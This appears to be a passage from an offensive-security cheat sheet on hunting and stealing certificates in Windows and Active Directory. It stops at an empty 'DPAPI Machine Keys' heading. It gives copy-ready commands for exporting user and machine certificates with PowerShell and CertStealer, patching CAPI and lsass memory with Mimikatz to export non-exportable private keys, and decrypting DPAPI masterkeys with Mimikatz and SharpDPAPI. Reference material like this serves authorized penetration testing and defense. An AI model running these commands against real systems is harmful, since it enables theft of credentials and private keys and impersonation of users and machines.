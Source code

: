 


## Hunt for Certificates



### Export Certificates (THEFT1)

Export a certificate from user's context.

With certmgr:

* Run → `certmgr.msc` → Action → All Tasks → Export ...

With PowerShell:

```
PS > Export-PfxCertificate -Password (Read-Host -AsSecureString -Prompt 'Password') -Cert (Get-Item -Path Cert:\LocalMachine\My\<CERT_THUMBPRINT>) -FilePath cert.pfx -Verbose
```

With [CertStealer](https://github.com/TheWover/CertStealer):

```
Cmd > .\CertStealer.exe -export pfx <CERT_THUMBPRINT>
```

If the private key is non-exportable, use Mimikatz's `crypto::capi` (to patch CAPI in current process) or `crypto::cng` (to patch `lsass.exe` memory):

```
Cmd > .\mimikatz.exe "crypto::capi" "crypto::certificates /export" "exit"
```



### DPAPI User Keys (THEFT2)

Decrypt a domain user's masterkey with domain's backup key with Mimikatz:

```
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /rpc" "exit"
```

Decrypt masterkey if user's plaintext password is known with Mimikatz:

```
Cmd > .\mimikatz.exe "dpapi::masterkey /in:C:\path\to\masterkey /sid:<ACCOUNT_SID> /password:Passw0rd!" "exit"
```

Simplify the process with SharpDPAPI providing it a file with one or more `{GUID}:SHA1` masterkey mappings (will output a `.pem` file):

```
Cmd > .\SharpDPAPI.exe certificates /mkfile:C:\Temp\mkeys.txt
```



### DPAPI Machine Keys (THEFT3)
